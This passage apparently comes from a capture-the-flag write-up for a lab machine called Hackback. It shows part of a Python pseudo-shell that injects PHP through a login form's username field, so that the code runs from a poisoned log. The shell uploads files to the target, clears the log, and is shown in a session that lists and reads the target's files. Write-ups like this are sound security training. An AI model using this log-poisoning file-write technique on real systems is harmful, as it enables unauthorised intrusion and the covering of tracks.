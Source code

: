 ```
 59              f.write(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)))
 60 
 61     def do_upload(self, args):
 62         '''Upload a local file to target
 63         Spaces allowed in target path, not local path
 64         upload [local file] [path on target]'''
 65         args = args.split(' ')
 66         to_upload = args[0]
 67         file_path = ' '.join(args[1:])
 68         with open(to_upload, 'rb') as f:
 69             b64 = b64encode(f.read()).decode()
 70         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
 71                      data={'username': f'<?php $f = "{b64}"; file_put_contents("{file_path}", base64_decode($f)); ?>',
 72                            'password': "xxxxxx",
 73                            'submit': ""})
 74         requests.get(self.webadmin_url.format(action='show', dir='', file=''),
 75                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
 76         self.clean_log()
 77 
 78 
 79 term = Terminal(proxy={'http': 'http://127.0.0.1:8080'})
 80 try:
 81     term.cmdloop()
 82 except KeyboardInterrupt:
 83     pass

```

#### Examples

With this shell, I can list files, dirwalk, and write:

```

root@kali# ./hackback_filesystem.py 
hackback> help

Documented commands (type help <topic>):
========================================
dir  help  save  type  upload

hackback> help save
Save the contents of a file to a file
        Spaces in file path allowed
        save [relative path on hackback] [path to save to]
hackback> dir
Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => webadmin.php
)
1
hackback> type index.html
<!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="refresh" content="0; URL='/'" />
  </head>
  <body>
  </body>
</html>
```